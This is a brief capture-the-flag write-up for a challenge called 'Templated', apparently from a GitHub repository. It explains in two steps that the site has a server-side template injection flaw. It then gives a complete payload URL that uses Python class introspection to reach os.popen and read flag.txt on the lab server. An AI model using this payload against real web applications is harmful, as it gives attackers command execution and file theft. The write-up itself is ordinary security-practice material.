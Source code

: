 # Templated #
Solver: Tal Baraz
---------------
1. First, I Figured out that there is an SSTI.
2. Then, I searched up for the os directory.
```javascript
That's it:
http://159.65.18.5:32067/{{"".__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen(%22cat%20flag.txt%22).read()}}
```



